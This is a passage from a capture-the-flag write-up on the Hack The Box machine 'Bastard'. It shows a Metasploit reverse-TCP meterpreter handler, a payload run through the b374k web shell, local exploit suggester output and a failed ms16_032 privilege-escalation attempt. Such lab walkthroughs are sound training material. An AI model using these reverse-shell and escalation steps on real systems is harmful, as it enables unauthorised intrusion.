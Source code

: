 19/03/2017 01:42 �� 19.986 update.php
19/03/2017 01:42 �� 10.123 UPGRADE.txt
19/03/2017 01:42 �� 2.200 web.config
19/03/2017 01:42 �� 417 xmlrpc.php
 23 File(s) 348.601 bytes
 9 Dir(s) 31.039.807.488 bytes free

I prepared a metasploit handler to receive the incoming windows shell.

use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <yourip>
set LPORT <4444>
set ExitOnSession false
exploit -j -z

I executed ssec.exe through b374k’s terminal and got a meterpreter shell.

meterpreter > sysinfo 
Computer : BASTARD
OS : Windows 2008 R2 (Build 7600).
Architecture : x64
System Language : el_GR
Domain : HTB
Logged On Users : 0
Meterpreter : x86/windows

Now that we have a meterpreter shell we can use exploit suggester

meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.9 — Collecting local exploits for x86/windows…
[*] 10.10.10.9–37 exploit checks are being tried…
[+] 10.10.10.9 — exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.9 — exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.9 — exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.9 — exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.9 — exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.9 — exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.9 — exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.9 — exploit/windows/local/ms_ndproxy: The target service is running, but could not be validated.
[+] 10.10.10.9 — exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.

We got quite a few exploits we could use but only one of them looks promising, ms16_032_secondary logon_handle_privesc. I tried it but it did not work.

[*] Started reverse TCP handler on 10.10.x.x:4444 
 [*] Writing payload file, C:\Users\Public\Documents\test\XEfKVo.txt…
 [*] Compressing script contents…
 [+] Compressed size: 3588
 [*] Executing exploit script…
 [*] Exploit completed, but no session was created.
